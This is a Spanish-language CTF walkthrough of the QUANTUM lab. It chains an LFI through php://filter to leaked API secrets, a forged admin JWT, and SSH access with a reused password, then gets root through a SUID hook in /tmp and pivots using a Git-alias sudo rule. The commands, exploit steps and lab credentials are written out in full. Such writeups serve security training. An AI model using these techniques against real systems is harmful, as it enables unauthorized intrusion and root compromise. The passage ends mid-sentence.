# QUANTUM — Writeup de Auditoría de Seguridad (CTF)

| Campo | Valor |
|---|---|
| **Laboratorio** | QUANTUM — *QuantumAI Corp* |
| **Plataforma** | Whoami-Labs |
| **Dificultad** | Difícil ★★★★★☆☆☆ (5 puntos) |
| **Categoría** | SUID & Sudo |
| **Autor del writeup** | chifay |
| **Fecha** | 23/10/2026 |
| **Objetivo** | `172.17.0.2` (contenedor Docker) |
| **Atacante** | Kali Linux — `172.17.0.1` |
| **Hostname del objetivo** | `quantum` |
| **Stack del objetivo** | Ubuntu 22.04.5 LTS · Apache 2.4.52 · OpenSSH 8.9p1 · Werkzeug 3.1.6 / Python 3.10.12 · API Flask |
| **Bandera obtenida** | `QUANTUM{qu4ntum_3nt4ngl3m3nt_c0mpl3t3d}` |
| **Estado** | Validada por el laboratorio (23/10/2026 16:21:31 -0600; captura real 16:22:59) |
| **Vector de entrada** | **LFI** en `/quantum/?page=` → lectura de `/opt/api/app.py` → credencial de `researcher` reutilizada → SSH |
| **Ruta completa** | Apache por defecto (señuelo) → `/quantum/` → LFI → `app.py` → SSH `researcher` → SUID `/usr/local/bin/backup` → `/tmp/.backup-hook` → `root` |
| **Documento** | Writeup completo; los artefactos que respaldan cada conclusión están en el repositorio (ver §15) |

> **Restricción del ejercicio:** el análisis se hizo por red. La única lectura directa del filesystem
> fue a través de la LFI y, después del compromiso, con una shell de root obtenida por el propio SUID.
> No se inspeccionó la configuración del contenedor desde el host.

---

## 1. Resumen ejecutivo

QUANTUM expone **tres servicios**: SSH (22), Apache (80) y una API Flask sobre Werkzeug (5000). El
puerto 80 devuelve la página por defecto de Apache y parece un objetivo vacío; la aplicación real
está escondida en **`/quantum/`**, un directorio que no aparece con las wordlists habituales y que
solo se descubre con una enumeración de contenido más amplia.

La aplicación `/quantum/` tiene una **LFI clásica** en el parámetro `page`. El código intenta incluir
`pages/$page.php`; si ese fichero no existe, hace un `include($page)` directo. Esa segunda rama
permite leer rutas absolutas y usar wrappers como `php://filter`, de modo que la LFI se convierte en
un **lector arbitrario de ficheros** con los permisos de `www-data`.

La lectura clave es **`/opt/api/app.py`**, el código de la API del puerto 5000. Allí están, en claro,
el `SECRET_KEY` del JWT y la contraseña de `researcher`:

```python
SECRET_KEY = "QuantumAPISecretKey2024_WEAK"
...
if username == "researcher" and password == "Quant0mR3s34rch":
```

Dos consecuencias inmediatas:

1. **API:** con el secreto se forja un JWT con `role: admin` y se accede a `/admin`. La API queda
   comprometida, aunque en este laboratorio solo devuelve datos de relleno.
2. **Sistema:** la contraseña de la API es **la misma** que la del usuario `researcher` en SSH. El
   acceso inicial no requiere fuerza bruta: la credencial está en el código filtrado.

Una vez dentro como `researcher`, `sudo` no concede nada («Sorry, user researcher may not run sudo
on quantum»). El vector está en un **SUID no estándar**, `/usr/local/bin/backup`, que ejecuta
`/tmp/.backup-hook` como root. Como `/tmp` es world-writable, cualquier usuario local puede plantar
el hook y obtener una shell de root.

Hallazgos adicionales, ya en post-explotación: el historial de Git de `aidev` conserva un
`SYSADMIN_PASS` que sigue siendo válido para SSH, y `/etc/sudoers` tiene una regla
`aidev ALL=(sysadmin) NOPASSWD: /usr/bin/git` que permite un pivote lateral a `sysadmin`.

| # | Vector | De → A |
|---|---|---|
| 1 | Enumeración web con DirBuster medium | — → `/quantum/` |
| 2 | LFI en `/quantum/?page=` | web → lectura arbitraria de ficheros |
| 3 | `/opt/api/app.py` con secretos en claro | LFI → `SECRET_KEY` + contraseña de `researcher` |
| 4 | JWT HS256 forjado con `role: admin` | API → `/admin` |
| 5 | SSH con la contraseña de la API | `researcher` (uid 1000) |
| 6 | SUID `/usr/local/bin/backup` + `/tmp/.backup-hook` | `researcher` → `root` |
| 7 | Historial de Git de `aidev` | post-root → `sysadmin` por SSH |
| 8 | Regla `NOPASSWD: /usr/bin/git` | `aidev` → `sysadmin` (vector lateral) |



---

## 2. Reconocimiento

### 2.1 Puertos y servicios

```bash
nmap -Pn -sV -sC -T4 --min-rate 1000 -p- 172.17.0.2
```



| Puerto | Estado | Servicio | Notas |
|---|---|---|---|
| 22/tcp | open | OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 | `PasswordAuthentication yes` |
| 80/tcp | open | Apache httpd 2.4.52 (Ubuntu) | Página por defecto; `/quantum/` oculto |
| 5000/tcp | open | Werkzeug 3.1.6 / Python 3.10.12 | API Flask «QuantumAI API v1.0» |

De 65 535 puertos TCP solo tres están abiertos. `nmap` resuelve el objetivo como
`metasploitable.vm` por una entrada heredada del entorno local; dentro del contenedor el hostname es
**`quantum`**. La evidencia interna manda.

### 2.2 Puerto 80 — el señuelo y `/quantum/`

La raíz devuelve la página por defecto de Apache (`Apache2 Ubuntu Default Page: It works`). No hay
formularios, parámetros ni aplicaciones. Con la lista común de `gobuster` no aparece nada relevante;
con **DirBuster 2007 medium** sí:

```text
/quantum/         (Status: 301)  → /quantum/
/quantum/pages/   (Status: 301)  → listado de directorio
```

`/quantum/` es un sitio PHP con tres secciones (`about`, `research`, `team`). El listado de
`/quantum/pages/` está habilitado y muestra los ficheros `about.php`, `research.php` y `team.php`.
La página `research` incluye una pista deliberada:

```html
<p><small>Internal API: Flask (port 5000)</small></p>
```



**Decisión:** la página por defecto del :80 es un señuelo; la superficie útil es `/quantum/` y la
API del :5000. No se pierde tiempo con fuerza bruta contra Apache.

### 2.3 Puerto 5000 — API

```bash
curl -s http://172.17.0.2:5000/
```

```json
{"endpoints":["/auth","/user/<id>","/data","/admin"],"service":"QuantumAI API v1.0"}
```

- `GET /user/<id>` no requiere autenticación y filtra usuarios y roles (**IDOR**).
- `POST /auth` solo acepta `application/json` y devuelve un JWT.
- `GET /data` y `GET /admin` exigen `Authorization: Bearer <token>`.

Enumeración de usuarios:

```text
GET /user/1 -> {"id":1,"role":"user","username":"researcher"}
GET /user/2 -> {"id":2,"role":"developer","username":"aidev"}
GET /user/3 -> {"id":3,"role":"admin","username":"sysadmin"}
GET /user/4 -> {"error":"User not found"}
```

Las credenciales obvias (`admin:admin`, `sysadmin:sysadmin`, etc.) y las inyecciones SQL en
`username`/`password` no funcionan. El login no ofrece un oráculo de usuarios: el mensaje es siempre
`Invalid credentials`.

---

## 3. LFI en `/quantum/?page=`

### 3.1 Código vulnerable

Leído con `php://filter` (el `include()` no se ejecuta, se vuelca el fuente):

```php
<?php
if(isset($_GET['page'])) {
    $page = $_GET['page'];
    $file = "pages/" . $page . ".php";
    if(file_exists($file)) {
        include($file);
    } else {
        @include($page);
    }
} else {
    echo "<h2>Welcome to QuantumAI</h2>";
    echo "<p>Pioneering the future of artificial intelligence</p>";
}
?>
```

La primera rama añade `.php` y busca dentro de `pages/`. Si el fichero no existe, la segunda rama
hace **`@include($page)` sobre la ruta cruda**. Eso permite:

- `?page=/etc/passwd` — ruta absoluta.
- `?page=../../../../etc/passwd` — traversal.
- `?page=php://filter/convert.base64-encode/resource=/ruta/al/fichero` — wrapper de PHP.

`php://filter` es especialmente útil porque `file_exists("pages/php://...php")` es falso, así que se
entra por la segunda rama y el wrapper se ejecuta sin que el fichero tenga que ser `.php`.



### 3.2 Lecturas clave

| Ruta | Contenido |
|---|---|
| `/etc/passwd` | `researcher` (1000), `aidev` (1001), `sysadmin` (1002) |
| `/start.sh` | `python3 /opt/api/app.py`; arranque de Apache y SSH |
| `/opt/api/app.py` | `SECRET_KEY` y contraseña de `researcher` en claro |
| `/etc/ssh/sshd_config` | `PasswordAuthentication yes`; sin restricción de usuarios |

`/start.sh` confirma la ruta de la API:

```bash
#!/bin/bash
service apache2 start
service ssh start
nohup python3 /opt/api/app.py > /var/log/api.log 2>&1 &
echo "[+] QuantumAI Lab started"
tail -f /dev/null
```

`/opt/api/app.py` es legible por `www-data` y contiene los dos secretos:

```python
SECRET_KEY = "QuantumAPISecretKey2024_WEAK"

users = {
    1: {"id": 1, "username": "researcher", "role": "user"},
    2: {"id": 2, "username": "aidev", "role": "developer"},
    3: {"id": 3, "username": "sysadmin", "role": "admin"}
}

@app.route('/auth', methods=['POST'])
def auth():
    data = request.json
    username = data.get('username')
    password = data.get('password')

    if username == "researcher" and password == "Quant0mR3s34rch":
        token = jwt.encode({
            'user_id': 1,
            'username': username,
            'role': 'user',
            'exp': datetime.utcnow() + timedelta(hours=24)
        }, SECRET_KEY, algorithm='HS256')
        return jsonify({"token": token})
```



### 3.3 Por qué esta LFI no necesita RCE

La LFI es un **lector**, no un ejecutor: el `include()` de un fichero sin etiquetas PHP vuelca su
contenido, y el wrapper `php://filter` devuelve base64. Para el objetivo del laboratorio no hace
falta convertirla en RCE: el código de la API ya contiene la credencial que abre SSH. La vía de
*log poisoning* se evaluó y se descartó porque `www-data` no puede leer
`/var/log/apache2/access.log` (permisos `root:adm`), y la aplicación no usa sesiones PHP.

---

## 4. API: JWT débil y acceso administrativo

Con la credencial filtrada se obtiene un token legítimo de `researcher`:

```bash
curl -s -X POST http://172.17.0.2:5000/auth \
  -H 'Content-Type: application/json' \
  -d '{"username":"researcher","password":"Quant0mR3s34rch"}'
```

El token es un JWT HS256 con `role: user`. Como el `SECRET_KEY` está en el código, se puede firmar
un token nuevo con `role: admin` para `sysadmin`:

```bash
python3 exploits/jwt_forge.py \
  --secret 'QuantumAPISecretKey2024_WEAK' --role admin
```

```text
[+] payload: {"exp": ..., "role": "admin", "user_id": 3, "username": "sysadmin"}
[200] GET /data: {"data":"Research data placeholder","status":"success"}
[200] GET /admin: {"message":"Admin panel access granted","status":"admin_access"}
```



El impacto en este laboratorio es limitado: `/admin` solo devuelve un mensaje y `/data` un
placeholder. Pero el fallo es real: **cualquiera que pueda leer el código puede emitir tokens de
administrador**. La escalada al sistema viene por la reutilización de la contraseña, no por la API.

> **Lección:** un JWT no es seguro por el hecho de estar firmado. Si el secreto está en el código,
> en un repositorio o en una variable de entorno filtrada, la firma deja de aportar garantías.

---

## 5. Acceso inicial: SSH como `researcher`

La contraseña de la API (`Quant0mR3s34rch`) es también la contraseña del sistema para `researcher`:

```bash
sshpass -p 'Quant0mR3s34rch' ssh researcher@172.17.0.2
```

```text
uid=1000(researcher) gid=1000(researcher) groups=1000(researcher)
quantum
Linux quantum 7.1.5+kali-amd64 ... x86_64 GNU/Linux

researcher:x:1000:1000::/home/researcher:/bin/bash
aidev:x:1001:1001::/home/aidev:/bin/bash
sysadmin:x:1002:1002::/home/sysadmin:/bin/bash
```

> El kernel que aparece (`7.1.5+kali-amd64`) es el del host: el contenedor comparte kernel. El
> sistema de usuarios y el `os-release` sí son del objetivo: Ubuntu 22.04.5 LTS (jammy).

`sudo` no es el vector:

```text
$ sudo -n -l
sudo: a password is required

$ sudo -l   # con la contraseña del usuario
[sudo] password for researcher: Sorry, user researcher may not run sudo on quantum.
```

El inventario SUID sí revela algo interesante: además del conjunto estándar de Ubuntu aparece
**`/usr/local/bin/backup`**, un binario setuid root que no forma parte de la instalación base.



---

## 6. Escalada a root — SUID `/usr/local/bin/backup`

### 6.1 El binario

```bash
ls -l /usr/local/bin/backup
file /usr/local/bin/backup
strings -a /usr/local/bin/backup
```

```text
-rwsr-xr-x 1 root root 16296 Feb 20  2026 /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 64-bit LSB pie executable, x86-64, ... not stripped

Usage: backup <directory>
tar czf /tmp/backup_%ld.tar.gz %s 2>/dev/null
/tmp/.backup-hook
/bin/bash /tmp/.backup-hook
Backup completed: /tmp/backup_%ld.tar.gz
```

El binario corre con `euid=0`, construye un `tar` sobre el directorio indicado y, si existe
`/tmp/.backup-hook` ejecutable, lanza **`/bin/bash /tmp/.backup-hook`**. El hook vive en `/tmp`, que
es world-writable: cualquier usuario local puede crearlo.

### 6.2 Hook y root

```bash
cat > /tmp/.backup-hook <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
id > /tmp/root-id.txt
cat /root/flag.txt > /tmp/flag.txt
EOF
chmod +x /tmp/.backup-hook
/usr/local/bin/backup /home/researcher
cat /tmp/root-id.txt
/tmp/rootbash -p -c 'id; hostname; cat /root/flag.txt'
```

```text
Backup completed: /tmp/backup_1792794050.tar.gz

uid=0(root) gid=0(root) groups=0(root),1000(researcher)
quantum

uid=1000(researcher) gid=1000(researcher) euid=0(root) groups=1000(researcher)
quantum
QUANTUM{qu4ntum_3nt4ngl3m3nt_c0mpl3t3d}
```



**Por qué funciona:** el binario hace el `setuid(0)` por nosotros y ejecuta un fichero que está en
un directorio escribible por cualquier usuario. No hace falta sudo, ni una CVE, ni un binario del
sistema: el propio SUID es el backdoor.

### 6.3 Fallos adicionales del mismo binario

| Fallo | Detalle |
|---|---|
| Ejecución de hook en `/tmp` | `system("/bin/bash /tmp/.backup-hook")` sin comprobar propietario ni integridad |
| Inyección de comandos en `tar` | `snprintf(cmd, ..., "tar czf /tmp/backup_%ld.tar.gz %s", ..., argv[1])`; el directorio no se cita |
| Ruta de salida predecible | `/tmp/backup_<epoch>.tar.gz`; un atacante puede preparar enlaces simbólicos |
| `system()` con privilegios | Cualquier fallo de quoting se convierte en root |

---

## 7. Hallazgos adicionales (post-explotación)

### 7.1 Secretos en el historial de Git

El home de `aidev` contiene un repositorio en `/home/aidev/project`. El commit actual sustituye
`.env` por `API_KEY=<REMOVED>`, pero el commit anterior («Initial setup») conserva el blob original
en `.git/objects`:

```text
==== 3041d7e... commit
Initial setup

==== 3221bd5... blob
API_KEY=QAI_dev_2024
SYSADMIN_PASS=SysAdm1n@Q

==== 14a427e... commit
Remove credentials
```

El secreto no se borra del historial: `git rm` solo crea un commit nuevo. `SysAdm1n@Q` sigue siendo
válida para SSH como `sysadmin` (verificado). `sysadmin` no tiene regla sudo, pero puede ejecutar el
mismo SUID `backup` para llegar a root.



### 7.2 Regla sudo de `aidev`: `git` como `sysadmin`

`/etc/sudoers` contiene:

```sudoers
aidev ALL=(sysadmin) NOPASSWD: /usr/bin/git
```

Si se compromete `aidev`, la regla permite ejecutar **cualquier subcomando de Git** como `sysadmin`.
Un alias de Git puede lanzar comandos de shell:

```bash
sudo -n -u sysadmin /usr/bin/git -c alias.pwn='!id' pwn
# uid=1002(sysadmin) gid=1002(sysadmin) groups=1002(sysadmin)
```

No se obtuvo la contraseña de `aidev`, así que la regla se validó con root suplantando a `aidev`
